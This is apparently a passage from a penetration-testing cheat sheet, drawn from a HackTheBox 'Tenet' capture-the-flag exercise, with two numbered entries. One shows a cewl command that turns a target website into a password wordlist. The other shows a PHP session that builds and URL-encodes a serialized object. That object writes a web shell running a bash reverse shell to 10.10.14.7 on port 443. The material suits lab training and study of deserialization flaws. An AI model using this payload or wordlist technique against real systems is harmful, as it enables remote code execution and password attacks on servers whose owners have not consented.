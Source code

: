 ## 25. CEWL - Html to Password list

```bash
cewl -w password.txt http://10.10.10.100/  # password.txt (is the output file) http://10.10.10.100/ (is the target website for translate into password list)
```

## 26. PHP deserialize example:

```bash
┌──(javali㉿kali)-[~/CaptureTheFlag/HackTheBox/Tenet]
└─$ php --interactive
Interactive mode enabled

php > class DatabaseExport{
php { public $user_file = 'shell.php';
php { public $data = '<?php shell_exec("bash -c \'bash -i >& /dev/tcp/10.10.14.7/443 0>&1\'"); ?>';
php { }
php > print urlencode(serialize(new DatabaseExport));
O%3A14%3A%22DatabaseExport%22%3A2%3A%7Bs%3A9%3A%22user_file%22%3Bs%3A9%3A%22shell.php%22%3Bs%3A4%3A%22data%22%3Bs%3A73%3A%22%3C%3Fphp+shell_exec%28%22bash+-c+%27bash+-i+%3E%26+%2Fdev%2Ftcp%2F10.10.14.7%2F443+0%3E%261%27%22%29%3B+%3F%3E%22%3B%7D
```
